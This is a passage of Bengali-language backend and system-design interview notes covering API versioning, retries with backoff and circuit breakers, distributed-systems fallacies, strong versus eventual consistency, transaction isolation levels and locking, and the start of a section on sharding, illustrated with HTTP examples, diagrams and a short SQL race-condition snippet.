**API Versioning:** হলো এপিআই ডিজাইনের এমন একটি গুরুত্বপূর্ণ মেকানিজম যার মাধ্যমে আমরা রানিং এপিআই-তে ব্রেকিং চেঞ্জেস (Breaking Changes) আনা সত্ত্বেও পুরনো মোবাইল বা ওয়েব ক্লায়েন্টদের সার্ভিস ব্যাহত না করে ব্যাকওয়ার্ড কম্প্যাটিবিলিটি (Backward Compatibility) মেইনটেইন করতে পারি।

### Breaking vs Non-breaking Changes

| ❌ Breaking Changes (Requires New Version) |  Safe Changes (Usually Safe) |
| :--- | :--- |
| কোনো ফিল্ডের নাম রিনেম করা বা সম্পূর্ণ মুছে ফেলা। | রেসপন্সে নতুন অপশনাল ফিল্ড যোগ করা। |
| ডাটা টাইপ পরিবর্তন করা (যেমন: `id: int` থেকে `id: string`). | সম্পূর্ণ নতুন এপিআই এন্ডপয়েন্ট বা রাউট তৈরি করা। |
| এপিআই রেসপন্সের অবজেক্ট স্ট্রাকচার পরিবর্তন করা। | কুয়েরিতে নতুন অপশনাল ফিল্টারিং প্যারামিটার অ্যাড করা। |
| কোনো অপশনাল কলাম বা হেডারকে **Required** করা। | এক্সিস্টিং এনাম লিস্টে নতুন মান যুক্ত করা (যদি ক্লায়েন্ট সেফ হ্যান্ডেল করে)। |

### Common Versioning Strategies

#### ১. URL Path Versioning (বহুল ব্যবহৃত ও স্পষ্ট)
```http
GET https://api.example.com/v1/users
GET https://api.example.com/v2/users
```
- **সুবিধা:** অত্যন্ত রিডঅ্যাবল, ব্রাউজারে সহজে ডিবাগ ও টেস্ট করা যায়। গেটওয়ে রাউটিং করা একদম ইজি।
- **অসুবিধা:** প্রতিটি চেঞ্জে ইউআরএল চেইন নোংরা হয়।

#### ২. Custom Header Versioning (REST-Pure Approach)
```http
GET https://api.example.com/users
Accept-Version: v2
```
- **সুবিধা:** ইউআরএল বা ডোমেইন ক্লিন থাকে, রিসোর্স ইউআরএল একই থাকে।
- **অসুবিধা:** সাধারণ ব্রাউজার দিয়ে ম্যানুয়াল টেস্টিং করা কঠিন। CDN বা প্রক্সি লেভেলে ক্যাশিং কনফিগারেশন করা ট্রিকি।

#### ৩. Content Negotiation / Media Type (Accept Header)
```http
GET https://api.example.com/users
Accept: application/vnd.company.v2+json
```
এটি অত্যন্ত পিউর রেস্টফুল মেথড, তবে বাস্তব প্রোডাকশন অ্যাপ্লিকেশনে এর জটিলতা অনেক বেশি।

### Versioning Strategies Flow

```mermaid
flowchart TD
    Start[API Modification Required] --> Break{Is it a Breaking Change?}
    Break -- No: Add optional field/route --> Deploy[Deploy as Safe Update. No Version bump.]
    Break -- Yes: Rename field/type change --> Choose{Choose Versioning Strategy}
    Choose -- URL Path --> V_URL[Update Gateway Routing to /v2/]
    Choose -- Custom Header --> V_Header[Extract version from Accept-Version header]
    V_URL --> Deprecate[Deploy v2 & Mark v1 as DEPRECATED]
    V_Header --> Deprecate
    Deprecate --> Sunset[Set Sunset Header date & notify clients to migrate]
```

### Senior Insight

- **empathy for the Clients:** ব্যাকএন্ড আর্কিটেক্ট হিসেবে নতুন ভার্সন বানানোর চেয়েও বড় দায়িত্ব হলো ওল্ড ভার্সনটি কতদিন সচল থাকবে তার জন্য একটি সুস্পষ্ট **Deprecation & Sunset Policy** কনফিগার করা।
- **Standard Sunset Headers:** ওল্ড এপিআই রেসপন্সে `Sunset` এবং `Deprecation` হেডার পাঠানো উচিত যাতে ক্লায়েন্টদের সিস্টেম অটোমেটিক ডিটেক্ট করতে পারে যে এই এপিআই-এর লাইফটাইম শেষ হতে চলেছে:
  ```http
  HTTP/1.1 200 OK
  Deprecation: @1774828800
  Sunset: Tue, 31 Dec 2026 23:59:59 GMT
  Link: <https://api.example.com/docs/v2>; rel="successor-version"
  ```
- **Application Routing Pattern:** কোডের ডুপ্লিকেশন এড়াতে এপিআই রাউটারে ভার্সন গেটওয়ে বসিয়ে কমন বিজনেস লজিকগুলো একটি ইউনিফাইড কন্ট্রোলারে রাখা উচিত, শুধুমাত্র ব্রেকিং কন্ট্রোলারগুলোকে আলাদা অ্যাডাপ্টারে ম্যাপ করতে হবে।

### Common Mistakes

- **Silently changing response payloads on production:** মোবাইল ইউজাররা অ্যাপ স্টোর থেকে অ্যাপ আপডেট না করলে তাদের ওল্ড অ্যাপ ইনস্ট্যান্টলি ক্র্যাশ করবে।
- **Bumping version for non-breaking changes:** প্রতিটি নতুন ফিল্ড যোগ করার জন্য নতুন ভার্সন (`/v3`, `/v4`) রিলিজ করা ডেভেলপমেন্ট ওভারহেড বাড়ায়।

### Interview Angle

> "এপিআই ভার্সনিং ব্রেকিং চেঞ্জের সময় ওল্ড ক্লায়েন্টদের অ্যাপ ক্র্যাশ হওয়া থেকে রক্ষা করে। আমরা সাধারণত সহজ রাউটিং ও ক্যাশিং এফিশিয়েন্সির জন্য URL Path Versioning বেছে নিই। তবে ভার্সন চেঞ্জের চেয়েও গুরুত্বপুর্ণ হলো ব্যাকওয়ার্ড কম্প্যাটিবিলিটি বজায় রাখা এবং Sunset হেডার ও সুস্পষ্ট মাইগ্রেশন উইন্ডো দিয়ে ওল্ড ভার্সন গ্রেসফুলি রিটায়ার করা।"


## 27. Retries, Backoff & Circuit Breakers

### Core Idea

ডিস্ট্রিবিউটেড সিস্টেম বা মাইক্রোসার্ভিসে নেটওয়ার্ক গ্লিচ বা ক্ষণস্থায়ী এরর (Transient Errors) খুবই সাধারণ বিষয়। যদি কোনো থার্ড-পার্টি সার্ভিস বা ডিপেন্ডেন্সি সাময়িকভাবে এরর দেয় বা স্লো হয়ে যায়, তবে সিস্টেম রিলায়বিলিটি নিশ্চিত করতে ৩টি গুরুত্বপূর্ণ প্যাটার্ন ব্যবহৃত হয়:
- **Retries:** ফেইলড রিকোয়েস্ট আবার পাঠানো।
- **Exponential Backoff:** প্রতিবার রিট্রাইয়ের মাঝে ওয়েটিং টাইম সূচকীয় হারে (Exponentially) বাড়ানো যাতে ফেইলিং সিস্টেম রিল্যাক্স হতে পারে।
- **Circuit Breaker:** যদি ডিপেন্ডেন্সি সার্ভিস সম্পূর্ণ ডেড হয়, তবে রিট্রাইয়ের মাধ্যমে মেমোরি নষ্ট না করে সরাসরি ফেইল ফাস্ট (Fail-Fast) করা।

### Circuit Breaker-এর স্টেট মেশিন (ভিজ্যুয়ালাইজেশন)

সার্কিট ব্রেকার মূলত ৩টি স্টেটে কাজ করে:

```mermaid
stateDiagram-v2
    [*] --> Closed: Initial State
    Closed --> Open: Failures > Threshold (Tripped)
    Open --> HalfOpen: Timeout Expired (Attempt Recovery)
    HalfOpen --> Closed: Success (Service Recovered)
    HalfOpen --> Open: Failure (Still Down)
    
    style Closed fill:#bbf,stroke:#333
    style Open fill:#fbb,stroke:#333
    style HalfOpen fill:#bfb,stroke:#333
```

- **Closed (কানেকশন সচল):** সিস্টেম ঠিকঠাক কাজ করছে, সব রিকোয়েস্ট ডিপেন্ডেন্সিতে পাস হচ্ছে।
- **Open (লাইন বিচ্ছিন্ন - ফেইল ফাস্ট):** রিকোয়েস্ট ফেইলিউর রেট নির্দিষ্ট থ্রেশহোল্ড (যেমন ৫০%) ক্রস করলে সার্কিট "ওপেন" বা ট্রিপ হয়ে যায়। এখন আর কোনো রিকোয়েস্ট ফেইলিং সার্ভিসে পাঠানো হয় না, সরাসরি ইনস্ট্যান্ট এরর/ফলব্যাক রিটার্ন করে।
- **Half-Open (পরীক্ষামূলক রিকোয়েস্ট):** নির্দিষ্ট কুলডাউন সময় (যেমন ৩০ সেকেন্ড) পার হওয়ার পর সার্কিট পরীক্ষামূলকভাবে কয়েকটি রিকোয়েস্ট পাঠায়। রিকোয়েস্ট সফল হলে সার্কিট পুনরায় **Closed** স্টেটে ফেরে, ব্যর্থ হলে আবার **Open** স্টেটে চলে যায়।

### Exponential Backoff & Jitter Strategy

ধরা যাক, একটি সার্ভিস ডাউন। আমরা যদি সরাসরি ব্যাক-টু-ব্যাক ১০ বার রিট্রাই করি, তবে ডাউন হওয়া সার্ভিসটি আমাদের অতিরিক্ত রিকোয়েস্ট ওভারহেডে আর কখনোই জেগে উঠতে পারবে না (Thundering Herd Problem).

**সমাধান:**
1. **Exponential Backoff:** প্রথম রিট্রাই ১ সেকেন্ড পর, ২য়টি ২ সেকেন্ড, ৩য়টি ৪ সেকেন্ড, ৪র্থটি ৮ সেকেন্ড পর করা।
2. **Jitter (র্যান্ডমাইজেশন):** রিট্রাইয়ের মাঝে সামান্য র্যান্ডম নয়েজ বা জিজার যোগ করা (যেমন ৮ সেকেন্ডের বদলে ৭.৪ সেকেন্ড বা ৮.৩ সেকেন্ড পর রিকোয়েস্ট পাঠানো)। এতে সব ক্লায়েন্ট সার্ভার ঠিক হওয়ার সাথে সাথে একই মিলি-সেকেন্ডে একসাথে রিকোয়েস্ট ছুড়ে সার্ভিসটি আবার ক্র্যাশ করাতে পারে না।

### Senior Insight

- **Resilience Libraries:** কাস্টম লুপ লিখে রিট্রাই বা সার্কিট ব্রেকার কোড করতে গেলে রেস কন্ডিশন বা মেমোরি ওভারহেড হতে পারে। প্রফেশনাল সিস্টেমে পপুলার লাইব্রেরি যেমন Node.js/NestJS-এ **Opossum** বা **async-retry**, এবং Java-তে **Resilience4j** ব্যবহার করা বেস্ট প্র্যাকটিস।
- **Graceful Degradation / Fallback:** সার্কিট যখন **Open** স্টেটে থাকে, তখন ইউজারকে সরাসরি লাল রঙের ক্র্যাশ স্ক্রিন বা ৫০০ এরর না দেখিয়ে একটি প্রি-কনফিগারড **Fallback Response** (যেমন ই-কমার্সে পার্সোনালাইজড রেকমেন্ডেশনের বদলে ডাটাবেসে থাকা ৫টি মোস্ট পপুলার আইটেমের লিস্ট) দেখানো উচিত। ইউজার বুঝতেই পারবে না যে পেছনের একটি সার্ভিস ফেইল করেছে।

### Common Mistakes

- **Infinite Retries without Timeout:** কোনো রিকোয়েস্টে নির্দিষ্ট টাইমআউট ও ম্যাক্স রিট্রাই লিমিট না রাখলে অ্যাপ্লিকেশন থ্রেড ইনফিনিট টাইমের জন্য ব্লক হয়ে মেমোরি লিক ঘটাবে।
- **No Jitter in Backoff:** ব্যাকঅফে জিজার না দিলে সব রিট্রাই একসাথে ব্যাচ আকারে সার্ভারে হিট করবে, যা ডাউন সার্ভিসকে রিকভার হতে বাধা দিবে।

### Interview Angle

> "ডিস্ট্রিবিউটেড সিস্টেমে ডিপেন্ডেন্সি ফেইলিউর হ্যান্ডেল করতে আমরা Exponential Backoff উইথ Jitter সহ Retries মেকানিজম ডিজাইন করি। আর যদি ফেইলিউর কন্টিনিউয়াস হয়, তবে সিস্টেমে সার্কিট ব্রেকার প্যাটার্ন ইমপ্লিমেন্ট করি যা অপ্রয়োজনীয় থ্রেড ব্লকিং রোধ করে দ্রুত ফলব্যাক রেসপন্স রিটার্ন করে সিস্টেমের রেজিলিয়েন্স নিশ্চিত করে।"


## 28. Distributed Systems Basics

### Core Idea

**Distributed System:** হলো এমন একটি সিস্টেম যেখানে একাধিক স্বাধীন কম্পিউটার বা মেশিন (Nodes) একটি নেটওয়ার্কের মাধ্যমে সংযুক্ত থেকে নিজেদের মাঝে মেসেজ আদান-প্রদানের মাধ্যমে একটি একক সমন্বিত ও সচল সিস্টেম (Single Cohesive System) হিসেবে কাজ করে।

### ডিস্ট্রিবিউটেড সিস্টেমের মূল ক্যারেক্টারিস্টিকস:
- **Concurrency:** নোডগুলো একসাথে প্যারালালি কাজ করে।
- **No Global Clock:** সব নোডের ফিজিক্যাল টাইম বা ঘড়ি ফিজিক্যালি ১০০% এক হওয়া অসম্ভব (Clock Skew).
- **Independent Failures:** যেকোনো একটি নোড ফেইল করতে পারে কিন্তু বাকি নোডগুলো সচল থাকবে।

### Distributed Partial Network Failure

```mermaid
graph LR
    subgraph Cluster [Distributed Cluster Nodes]
        A[Service Node A] <--> |Network Link: OK| B[Service Node B]
        A <.-x |Network Partition: Broken!| C[Service Node C]
        B <.-x |Network Link: Lost!| C
    end
    
    style A fill:#bfb,stroke:#333
    style B fill:#bfb,stroke:#333
    style C fill:#fbb,stroke:#333
```

### The 8 Fallacies of Distributed Computing (ইঞ্জিনিয়ারদের কাল্পনিক ভুলসমূহ)

ডিস্ট্রিবিউটেড সিস্টেম ডিজাইন করার সময় সিনিয়র ডেভেলপারদের সবসময় এই ৮টি কুসংস্কার বা কু-ধারনা মাথায় রেখে ডিফেন্সিভ কোড করতে হয়:
1. **The network is reliable:** নেটওয়ার্ক সম্পূর্ণ নির্ভরযোগ্য (আসলে নেটওয়ার্ক যেকোনো সময় ড্রপ করবে)।
2. **Latency is zero:** লেটেন্সি শূন্য (নেটওয়ার্ক কলে লেটেন্সি থাকবেই)।
3. **Bandwidth is infinite:** ব্যান্ডউইথ আনলিমিটেড।
4. **The network is secure:** নেটওয়ার্ক সম্পূর্ণ নিরাপদ।
5. **Topology doesn't change:** নেটওয়ার্ক টপোলজি বা নোড সাইজ কখনো বদলায় না।
6. **There is one administrator:** পুরো সিস্টেমে মাত্র একজন এডমিন।
7. **Transport cost is zero:** ডাটা ট্রান্সফার কস্ট সম্পূর্ণ ফ্রি।
8. **The network is homogeneous:** সব নোড ও কনফিগারেশন একদম সেম।

### Senior Insight (Designing for Resilience)

ডিস্ট্রিবিউটেড সিস্টেম ডিজাইন করার সময় রিকোয়েস্ট ফ্লোতে নিচের ৩টি স্ট্যাটাস ধরে কোড লিখতে হবে:
1. **SUCCESS:** রিকোয়েস্ট সফল হয়েছে।
2. **FAILURE:** রিকোয়েস্ট পরিষ্কারভাবে রিজেক্ট বা ব্যর্থ হয়েছে।
3. **TIMEOUT (গোধূলি জোন):** আপনি জানেন না সার্ভার রিকোয়েস্টটি পেয়েছে কিনা বা রাইট হওয়ার পর রেসপন্স আসার সময় নেটওয়ার্ক কেটে গেল কিনা।

**প্রতিরোধমূলক আর্কিটেকচার:**
- **Idempotency:** ডুপ্লিকেট মেসেজ এড়াতে।
- **Distributed Tracing (Correlation ID):** প্রতিটা ইনকামিং রিকোয়েস্টে গেটওয়েতে একটি ইউনিক আইডি (`X-Correlation-ID`) জেনারেট করে সব নোড ও লগ ফাইলে পাস করতে হবে, অন্যথায় মাইক্রোসার্ভিসে বাগ ডিবাগ করা অসম্ভব।
- **Quorum (Consensus):** একাধিক নোডের মাঝে লিডার নির্বাচন ও ট্রুথ স্ট্যাটাস নিশ্চিত করতে **Raft** বা **Paxos** কনসেনসাস অ্যালগরিদম ব্যবহার করা হয় (যেমন ক্যাফকা বা জুকিপারে)।

### Common Mistakes

- **Treating Remote Network Calls like local functions:** ডিস্ট্রিবিউটেড নেটওয়ার্ক কলে কোনো প্রকার টাইমআউট বা রিট্রাই লজিক ছাড়া সরাসরি কোড লেখা (যেমন `http.get()`), যা থ্রেড ব্লক করে।
- **Assuming Global Clock Synchronicity:** ডাটাবেসের টাইম ট্র্যাকিং বা ফিনান্সিয়াল বুকিংয়ে লোকাল সিস্টেম টাইম ব্যবহার করা। অবশ্যই UTC জোন এবং ডেডিকেটেড ক্রন সিকোয়েন্স বা NTP সিঙ্ক ব্যবহার করতে হবে।

### Interview Angle

> "ডিস্ট্রিবিউটেড সিস্টেম জটিল কারণ নেটওয়ার্ক নির্ভরযোগ্য নয় এবং আংশিক ফেইলিউর (Partial Failures) অবধারিত। সিনিয়র সিস্টেম ডিজাইনে আমরা নেটওয়ার্ক ল্যাগ ও ডুপ্লিকেট মেসেজ ধরে নিয়ে ইভেন্ট-লেভেলে Idempotency, timeouts, circuit breakers, consensus models (Raft), এবং distributed tracing correlation IDs ইমপ্লিমেন্ট করে সিস্টেমের রিলায়েবিলিটি নিশ্চিত করি।"


## 29. Consistency Models (Strong vs Eventual)

### Core Idea

- **Strong Consistency (দৃঢ় একরূপতা):** এটি গ্যারান্টি দেয় যে ডাটাবেসে একবার ডেটা রাইট বা আপডেট সফল হয়ে গেলে, পরবর্তী যেকোনো রিড কুয়েরি (তা যেকোনো নোড থেকেই করা হোক না কেন) সাথে সাথে লেটেস্ট আপ-টু-ডেট ডাটাটি রিড করতে পারবে।
- **Eventual Consistency (সাময়িক শিথিল একরূপতা):** এটি হাই-এভেইলেবিলিটি ও স্কেলাবিলিটি অর্জনের জন্য কড়া রাইট লক করে না। ডেটা রাইট হওয়ার পর ব্যাকগ্রাউন্ড অ্যাসিনক্রোনাস নোড রেপ্লিকেশন ল্যাগের কারণে সাময়িকভাবে ওল্ড ডাটা রিড হতে পারে, তবে নির্দিষ্ট সময় বা সিকোয়েন্স শেষে সিস্টেমে সব নোড আপ-টু-ডেট ডেটা সিঙ্ক করে নেয়।

### Consistency Flows: Strong vs Eventual

```mermaid
sequenceDiagram
    autonumber
    actor Client as User Client
    participant Primary as Primary DB Node
    participant Replica as Replica DB Node

    rect rgb(240, 255, 240)
        Note over Client, Replica: Strong Consistency (Synchronous Replicated Write)
        Client->>Primary: Write balance = $120
        Primary->>Replica: Sync balance = $120 (Block & Wait)
        Replica-->>Primary: Ack Sync OK
        Primary-->>Client: Success!
        Client->>Replica: Read balance -> Returns $120 (Always Latest!)
    end

    rect rgb(255, 240, 245)
        Note over Client, Replica: Eventual Consistency (Async Replicated Write)
        Client->>Primary: Write balance = $120
        Primary-->>Client: Success! (Instant return, no wait)
        Primary->>Replica: Async sync balance (Replication lag: 2 seconds)
        Client->>Replica: Read balance (Instant check) -> Returns $100 (Stale Read!)
        Note over Client: After 2 seconds, replication syncs.
        Client->>Replica: Read balance (Later) -> Returns $120 (Eventually Consistent!)
    end
```

### Consistency Models Trade-offs

| বৈশিষ্ট্য | Strong Consistency | Eventual Consistency |
| :--- | :--- | :--- |
| **লেটেন্সি (Latency)** | **উচ্চ:** সব নোডে সিঙ্ক ব্লক কনফার্মেশন শেষ হতে অতিরিক্ত সময় লাগে। | **অত্যন্ত কম:** ওয়ান-শটে প্রাইমারি নোডে রাইট শেষেই রেসপন্স চলে যায়। |
| **স্কেলাবিলিটি** | **সীমিত:** নোড ও ট্রাফিক বাড়লে পারফরম্যান্স ও এভেইলেবিলিটি কমে যায়। | **চরম স্কেলেবল:** রিড রেপ্লিকা বাড়িয়ে আনলিমিটেড রিড ট্রাফিক নেওয়া যায়। |
| **ডাটা রিলায়েবিলিটি** | শতভাগ নির্ভুল। নো ওল্ড/স্টেল ডেটা পসিবিলিটি। | সাময়িকভাবে ওল্ড বা স্টেল ডেটা রিড হতে পারে। |
| **আদর্শ ইউজ কেস** | ব্যাংক ব্যালেন্স, ইনভেন্টরি টিকিট, পাসওয়ার্ড চেঞ্জ। | লাইক কাউন্ট, প্রোডাক্ট রিভিউ, ফেসবুক কমেন্টস, সার্চ ইণ্ডেক্স। |

### Advanced Consistency Models

1. **Read-Your-Writes Consistency:** ইউজার প্রোফাইল আপডেট করে রিস্টার্ট বা পেজ রিফ্রেশ দিলে সে নিজের লেটেস্ট আপডেট দেখতে পাবে, যদিও অন্যান্য ইউজাররা ১-২ সেকেন্ড পরে দেখবে। এটি করার জন্য ওনার রিডগুলো সরাসরি প্রাইমারি নোডে পাঠানো হয়।
2. **Monotonic Reads:** এটি গ্যারান্টি দেয় যে ইউজার একবার লেটেস্ট ডাটা দেখার পর পেজ রিফ্রেশ দিলে পিছনের ওল্ড বা স্টেল ডেটা দেখতে পাবে না (টাইম সিকোয়েন্স লকিং)।

### Senior Insight (Handling Eventual Consistency in UI/UX)

ইভেনচুয়াল কনসিস্টেন্সি ব্যবহার করলে শুধুমাত্র ব্যাকএন্ড নয়, ফ্রন্টএন্ড UI/UX এও পরিবর্তন আনতে হয়।
- **Optimistic UI Updates:** ইউজার যখন লাইক বাটনে ক্লিক করবে, ফ্রন্টএন্ড ব্যাকএন্ডের এপিআই সিঙ্ক রেসপন্সের জন্য ওয়েট না করে সাথে সাথে স্ক্রিনে লাইক কাউন্ট ১ বাড়িয়ে দেয়। ব্যাকগ্রাউন্ডে এপিআই সফল হলে ভালো, আর এরর দিলে লাইক আবার কমিয়ে এরর শো করে।
- **Search System Index Delay:** ই-কমার্সে প্রোডাক্ট এডিট করার পর ইলাস্টিক সার্চ বা মঙ্গোডিবিতে সিঙ্ক হতে কিছুটা ডিলে হতে পারে। এই সময় ফ্রন্টএন্ডে "Updating details..." বা একটি ছোট নোটিশ রাখা কাস্টমার এক্সপেরিয়েন্স স্মুথ রাখে।

### Common Mistakes

- **Using Eventual consistency for transactional ledgers:** পেমেন্ট বা মানি উইথড্র ট্রানজেকশনে এটি ব্যবহার করলে একাউন্টে ব্যালেন্স না থাকা সত্ত্বেও ডুপ্লিকেট টাকা উইথড্র হতে পারে।
- **Ignoring Replica Lag Monitoring:** প্রোডাকশনে রিড রেপ্লিকার ল্যাগ (Replica Lag) মনিটর না করা। যদি ল্যাগ ২ মিলি-সেকেন্ড থেকে ১০ মিনিটে চলে যায় এবং এলার্ট না থাকে, তবে ইউজাররা মারাত্মক পুরনো ডাটা দেখবে যা বিজনেসে নেতিবাচক প্রভাব ফেলবে।

### Interview Angle

> "স্ট্রং কনসিস্টেন্সি ডাটা রাইটের সাথে সাথেই শতভাগ নির্ভুল লেটেস্ট রিড গ্যারান্টি দেয়, তবে এটি নেটওয়ার্ক সিঙ্ক লকিংয়ের কারণে সিস্টেমে এক্সট্রা লেটেন্সি যুক্ত করে। অপরদিকে ইভেনচুয়াল কনসিস্টেন্সি এভেইলেবিলিটি ও স্কেলাবিলিটি চরম উন্নত করে কিন্তু সাময়িকভাবে ওল্ড ডাটা রিডের ঝুঁকি আনে। আমরা ফিনান্সিয়াল ট্রানজেকশনে strong এবং ক্যাশিং, সোশ্যাল ফিড বা সার্চ ইঞ্জিনে eventual consistency ব্যবহার করি।"


## 30. Database Transactions

### Core Idea

**Database Transaction (ডাটাবেস ট্রানজেকশন):** হলো ডাটাবেস অপারেশনের একটি পরমাণু বা অবিভাজ্য একক (Atomic Unit)। এর মানে হলো, একটি ট্রানজেকশনের ভেতরে একাধিক কুয়েরি (যেমন Insert, Update, Delete) থাকতে পারে; হয় সব কুয়েরি সফলভাবে সম্পাদিত হবে (Commit), অন্যথায় একটি কুয়েরি এরর দিলেও ডাটাবেসের স্টেট আগের অবস্থায় ফিরে যাবে (Rollback)।

### Database Isolation Levels & Read Anomalies

ডাটাবেসে একসাথে হাজার হাজার ইউজার কাজ করার সময় রিড-রাইট কনকারেন্সি বজায় রাখতে ডাটাবেসের ৪টি **Isolation Levels** এবং তাদের সাথে যুক্ত ৪টি **Read Anomalies** (অনিয়ম) অত্যন্ত গুরুত্বপূর্ন:

| Isolation Level | Dirty Read | Non-Repeatable Read | Phantom Read | Lost Update |
| :--- | :--- | :--- | :--- | :--- |
| **Read Uncommitted** | ❌ (ঘটে) | ❌ (ঘটে) | ❌ (ঘটে) | ❌ (ঘটে) |
| **Read Committed** (Default in Postgres) | ✅ (রক্ষিত) | ❌ (ঘটে) | ❌ (ঘটে) | ❌ (ঘটে) |
| **Repeatable Read** | ✅ (রক্ষিত) | ✅ (রক্ষিত) | ❌ (ঘটে) | ✅ (রক্ষিত) |
| **Serializable** (Safest but Slowest) | ✅ (রক্ষিত) | ✅ (রক্ষিত) | ✅ (রক্ষিত) | ✅ (রক্ষিত) |

#### Read Anomalies সংজ্ঞাসমূহ:
1. **Dirty Read:** ট্রানজেকশন A কোনো ডাটা আপডেট করলো কিন্তু কমিট করেনি। ট্রানজেকশন B সেই আন-কমিটেড ডেটা রিড করে ফেলল। পরে ট্রানজেকশন A রোলব্যাক হয়ে গেল। B-এর রিড করা ডেটা হয়ে গেল ফেক বা ডার্টি।
2. **Non-Repeatable Read:** ট্রানজেকশন A একটি রো রিড করলো। ট্রানজেকশন B এসে ওই রো আপডেট করে কমিট করলো। ট্রানজেকশন A আবার রিড করতে গিয়ে দেখলো ডাটা বদলে গেছে!
3. **Phantom Read:** ট্রানজেকশন A একটি রেঞ্জ কুয়েরি (`WHERE age > 20`) রান করলো। ট্রানজেকশন B এসে ওই রেঞ্জের ভেতর নতুন ১টি কলাম ইনসার্ট করে কমিট করলো। ট্রানজেকশন A পুনরায় কুয়েরি মারতে গিয়ে দেখলো নতুন রো যোগ হয়ে গেছে (ভৌতিক রিড)।

### Concurrency Lock Simulation: Deadlock

```mermaid
sequenceDiagram
    autonumber
    actor T1 as Transaction 1
    actor T2 as Transaction 2
    participant RowA as Table Row A
    participant RowB as Table Row B

    T1->>RowA: Lock Row A (SELECT FOR UPDATE)
    T2->>RowB: Lock Row B (SELECT FOR UPDATE)
    
    Note over T1, RowB: T1 wants to update Row B, and T2 wants to update Row A...
    T1->>RowB: Request lock Row B (Blocked - Waiting for T2)
    T2->>RowA: Request lock Row A (Blocked - Waiting for T1)
    
    Note over T1, T2: DEADLOCK DETECTED! Database engine kills one transaction to resolve this.
```

### Senior Insight

- **Keep Transactions Blazing Fast & Short:** প্রোডাকশন লেভেলে কোনো ট্রানজেকশনের ভেতরে কখনও ভারী এপিআই বা এক্সটার্নাল রিকোয়েস্ট (যেমন: Stripe payment call, Email send) ঢুকানো যাবে না। এতে ডাটাবেসের রো লক এবং কানেকশন পুল দীর্ঘক্ষণ আটকে থেকে সম্পূর্ণ ডাটাবেস সার্ভার জাম করে ফেলবে।
- **Optimistic vs Pessimistic Locking:**
  - **Pessimistic Locking (`SELECT FOR UPDATE`):** রো লক করে কনকারেন্ট ইউজারদের ব্লক করে রাখে। এটি হাই-কনফ্লিক্ট ফিনান্সিয়াল বুকিংয়ে ভালো।
  - **Optimistic Locking (Version columns):** কোডে একটি `version` কলাম মেইনটেইন করে ডাটা সেভ করার সময় `WHERE version = old_version` চেক করে। এটি নো-ব্লকিং এবং রিড-হেভি সিস্টেমে বেস্ট।

### Common Mistakes

- **Read-Modify-Write Race Condition:** একাউন্ট ব্যালেন্স ডাটাবেস থেকে কোডে নিয়ে এসে যোগ-বিয়োগ করে পুনরায় আপডেট করা:
  ```javascript
  // ভুল পদ্ধতি (কনকারেন্সিতে ব্যালেন্স ভুল হবে)
  const user = await db.query("SELECT balance FROM accounts WHERE id = 1");
  await db.query(`UPDATE accounts SET balance = ${user.balance - 10} WHERE id = 1`);
  
  // সঠিক পদ্ধতি (ডাটাবেস লেভেলে এটমিক আপডেট)
  await db.query("UPDATE accounts SET balance = balance - 10 WHERE id = 1");
  ```

### Interview Angle

> "ডাটাবেস ট্রানজেকশন ACID নিশ্চিত করতে একাধিক অপারেশন এটমিকভাবে চালায়। প্রোডাকশন সিস্টেমে আমরা সাধারণত Read Committed আইসোলেশন লেভেল রাখি এবং ডেডলক ও রেস কন্ডিশন এড়াতে ডেটাবেস লেভেলে এটমিক কুয়েরি বা version-based Optimistic Locking ব্যবহার করি। এছাড়া আমরা ট্রানজেকশনের ভেতরের কোড ছোট রাখি এবং কোনো নেটওয়ার্ক কল সেখানে রাখি না।"


## 31. Sharding & Partitioning

### Core Idea

- **Database Partitioning (logical/Physical Partitioning):** এটি হলো একটি একক ডাটাবেস সার্ভারের ভেতরে একটি বিশাল বড় টেবিলকে ভেঙ্গে ছোট ছোট লজিক্যাল সাব-টেবিলে (Partitions) বিভক্ত করা। সব ডেটা কিন্তু একই সার্ভারেই থাকে।
- **Sharding (Horizontal Scaling of Databases):** এটি হলো ডেটাকে ভেঙ্গে সম্পূর্ণ আলাদা আলাদা ডাটাবেস সার্ভারে (Physical Shard Servers) বিভক্ত করে বন্টন করা। এটি ডাটাবেসের রাইট স্কেল এবং স্টোরেজ স্কেল করতে ব্যবহৃত হয়।

### Database Scaling: Partitioning vs Sharding

```text
  [ Partitioning (Single DB Server) ]             [ Sharding (Multiple DB Servers) ]
         ┌──────────────────┐                       ┌──────────┐      ┌──────────┐
         │ Database Server  │                       │ Shard A  │      │ Shard B  │
         │ ┌──────────────┐ │                       │ (DB Srv1)│      │ (DB Srv2)│
         │ │ Orders Table │ │                       ├──────────┤      ├──────────┤
         │ ├──────────────┤ │                       │Orders 1-5│      │Orders 6+ │
         │ │Part.A (2025) │ │                       └──────────┘      └──────────┘
         │ │Part.B (2026) │ │                    (Data split across physical machines)
         │ └──────────────┘ │
         └──────────────────┘
```

### Partitioning Types

1. **Range Partitioning:** কোনো নির্দিষ্ট ভ্যালুর রেঞ্জ অনুযায়ী ভাগ করা (যেমন: `orders_2025`, `orders_2026`)।
2. **List Partitioning:** ক্যাটাগরি বা তালিকার ভ্যালু অনুযায়ী ভাগ করা (যেমন: `users_east`, `users_west`)।
3. **Hash Partitioning:** মডিউলো ফাংশন বা হ্যাশ ব্যবহার করে ডেটা সমানভাবে ভাগ করা।

### Shard Key & Consistent Hashing

শার্ডিং করার ক্ষেত্রে সবচেয়ে গুরুত্বপূর্ণ হলো **Shard Key** চয়েস। শার্ড কী ডিফাইন করে নতুন রো ডেটা কোন ফিজিক্যাল শার্ড সার্ভারে যাবে:
$$	ext{Shard Server} = 	ext{Hash(Shard Key)} \pmod N$$
একটি ভালো শার্ড কী-এর গুণাবলি:
- **Even Distribution:** সব শার্ডে সমান পরিমাণ ডেটা পাঠাবে।
- **Hotspot Avoidance:** একক কোনো শার্ডকে অতিরিক্ত রাইট অপারেশনের মাধ্যমে ওভারলোড হতে দিবে না।

### Sharding System Architecture

```mermaid
graph TD
    Client[App Instances] --> Proxy[Database Proxy / Router]
    Proxy -->|Hash ID: 1-100k| Shard1["(Shard Server 1)"]
    Proxy -->|Hash ID: 100k-200k| Shard2["(Shard Server 2)"]
    Proxy -->|Hash ID: 200k+| Shard3["(Shard Server 3)"]
    
    style Shard1 fill:#fdb,stroke:#333
    style Shard2 fill:#fdb,stroke:#333
    style Shard3 fill:#fdb,stroke:#333
```

### Senior Insight

